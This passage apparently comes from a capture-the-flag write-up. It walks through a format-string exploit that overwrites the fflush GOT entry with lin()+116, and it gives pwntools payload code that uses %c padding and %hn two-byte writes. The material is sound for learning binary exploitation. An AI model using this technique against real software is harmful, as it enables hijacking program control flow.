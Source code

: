 Execute script and we can get the correct fflust@got address:

![correct_fflush_got.png](images/correct_fflush_got.png)

Now, let's take the address of `lin()+116` and devided into 2 part:

```
lin_addr_middle_hex = hex(exe.sym['lin'] + 116)
part1 = int(lin_addr_middle_hex[-4:], 16)        # Lower bytes
part2 = int(lin_addr_middle_hex[-8:-4], 16)      # Higher bytes
```

So now we will want to change the 2 lower bytes first by using `%hn` for writing 2 bytes and we will use `%<k>c` with `k` specify number of byte for the padding so that we don't need to send a long payload to server:

```
payload = p32(exe.got['fflush'])           # 4 bytes
payload += b'PPPP'                         # 4 bytes
payload += p32(exe.got['fflush']+2)        # 4 bytes
payload += b'%c'*5                         # 5 bytes
payload += '%{}c%hn'.format(part1 - 17).encode()
payload += b'%c%p'
p.sendlineafter(b'But....', payload)
p.recvline()
print(p.recvline())
print(hex(exe.got['fflush']))
```

We want to write `part1` bytes but before `part1` we already write some bytes so just subtract `part1` with those byte and we get the correct number of bytes we want to write. Try to run that and debug with GDB, we see that the address changed:

![overwrite_2_lower_byte.png](images/overwrite_2_lower_byte.png)

We can see that 2 lower bytes changed successfully. Now it's time for the 2 higher bytes but first, let's try with `%hn` without any padding so our payload will update like this:

```
payload = p32(exe.got['fflush'])
payload += b'PPPP'
payload += p32(exe.got['fflush']+2)
payload += b'%c'*5
payload += '%{}c%hn'.format(part1 - 17).encode()
payload += b'%c%hn'                               # Change 
p.sendlineafter(b'But....', payload)
p.recvline()
print(p.recvline())
print(hex(exe.got['fflush']))
```
